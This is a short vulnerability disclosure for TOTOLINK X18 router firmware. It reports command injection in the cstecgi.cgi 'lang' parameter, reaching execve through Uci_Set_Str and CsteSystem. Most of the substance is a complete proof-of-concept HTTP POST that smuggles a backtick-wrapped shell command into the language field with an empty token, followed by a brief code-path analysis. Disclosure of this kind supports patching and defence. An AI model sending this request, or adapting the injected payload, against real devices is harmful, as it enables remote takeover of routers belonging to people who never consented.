






# cve

## Product：

TOTOLINK X18

## Version：

V9.1.0cu.2024\_B20220329

## Firmware ：

https://www.totolink.net/home/menu/detail/menu\_listtpl/products/id/226/ids/33.html

## Vulnerability：

In the sub_410E54 function of the /cgi-bin/cstecgi.cgi program, it is possible to obtain the passed values using Uci\_Set\_Str and then achieve arbitrary command execution through execve.

### Poc：

Execute the command `id>/web/12.txt`​

```py
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.41.184:8885
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 87
Origin: http://192.168.41.184:8885
Connection: close
Referer: http://192.168.41.184:8885/login.html
Priority: u=0

{"lang":"en`id>/web/12.txt`","langAutoFlag":"0","topicurl":"setLanguageCfg","token":""}
```



effort：





‍

### Analysis：

in the /cgi-bin/cstecgi.cgi, it is possible to exploit a command execution vulnerability by using the sub_410E54 function to modify the 'lang' value



In Uci_Set_Str, the parameters are concatenated using snprintf function, and passed into CsteSystem to execution



CsteSystem execute the command by execv function with parameters contains our data



‍
